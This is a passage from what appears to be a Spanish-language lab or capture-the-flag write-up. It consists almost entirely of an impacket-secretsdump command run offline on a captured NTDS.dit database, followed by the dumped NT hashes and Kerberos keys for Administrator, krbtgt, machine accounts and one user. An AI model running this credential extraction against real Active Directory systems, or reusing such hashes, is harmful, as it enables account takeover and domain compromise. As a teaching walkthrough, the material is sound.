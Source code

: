 En el directorio personal de este usuario, hay un directorio con archivos de una "auditoría"

Los traigo a mi equipo, y puedo dumpear los hashes NT

```null
impacket-secretsdump -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit 
Administrator:aes256-cts-hmac-sha1-96:6c53b16d11a496d0535959885ea7c79c04945889028704e2a4d1ca171e4374e2
Administrator:aes128-cts-hmac-sha1-96:e2a25474aa9eb0e1525d0f50233c0274
Administrator:des-cbc-md5:75375eda54757c2f
WIN-3G2B0H151AC$:aes256-cts-hmac-sha1-96:84e3d886fe1a81ed415d36f438c036715fd8c9e67edbd866519a2358f9897233
WIN-3G2B0H151AC$:aes128-cts-hmac-sha1-96:e1a487ca8937b21268e8b3c41c0e4a74
WIN-3G2B0H151AC$:des-cbc-md5:b39dc12a920457d5
WIN-3G2B0H151AC$:rc4_hmac:668d49ebfdb70aeee8bcaeac9e3e66fd
krbtgt:aes256-cts-hmac-sha1-96:14134e1da577c7162acb1e01ea750a9da9b9b717f78d7ca6a5c95febe09b35b8
krbtgt:aes128-cts-hmac-sha1-96:8b96c9c8ea354109b951bfa3f3aa4593
krbtgt:des-cbc-md5:10ef08047a862046
krbtgt:rc4_hmac:ca1ccefcb525db49828fbb9d68298eee
WIN2K8$:aes256-cts-hmac-sha1-96:289dd4c7e01818f179a977fd1e35c0d34b22456b1c8f844f34d11b63168637c5
WIN2K8$:aes128-cts-hmac-sha1-96:deb0ee067658c075ea7eaef27a605908
WIN2K8$:des-cbc-md5:d352a8d3a7a7380b
WIN2K8$:rc4_hmac:160f6c1db2ce0994c19c46a349611487
WINXP1$:aes256-cts-hmac-sha1-96:347a128a1f9a71de4c52b09d94ad374ac173bd644c20d5e76f31b85e43376d14
WINXP1$:aes128-cts-hmac-sha1-96:0e4c937f9f35576756a6001b0af04ded
WINXP1$:des-cbc-md5:984a40d5f4a815f2
WINXP1$:rc4_hmac:6f5e87fd20d1d8753896f6c9cb316279
WIN2K31$:aes256-cts-hmac-sha1-96:f486b86bda928707e327faf7c752cba5bd1fcb42c3483c404be0424f6a5c9f16
WIN2K31$:aes128-cts-hmac-sha1-96:1aae3545508cfda2725c8f9832a1a734
WIN2K31$:des-cbc-md5:4cbf2ad3c4f75b01
WIN2K31$:rc4_hmac:cdd7a7f43d06b3a91705900a592f3772
WIN7$:aes256-cts-hmac-sha1-96:b9921a50152944b5849c706b584f108f9b93127f259b179afc207d2b46de6f42
WIN7$:aes128-cts-hmac-sha1-96:40207f6ef31d6f50065d2f2ddb61a9e7
WIN7$:des-cbc-md5:89a1673723ad9180
WIN7$:rc4_hmac:24473180acbcc5f7d2731abe05cfa88c
atanas:aes256-cts-hmac-sha1-96:933a05beca1abd1a1a47d70b23122c55de2fedfc855d94d543152239dd840ce2
atanas:aes128-cts-hmac-sha1-96:d1db0c62335c9ae2508ee1d23d6efca4
atanas:des-cbc-md5:6b80e391f113542a
[*] Cleaning up... 
```
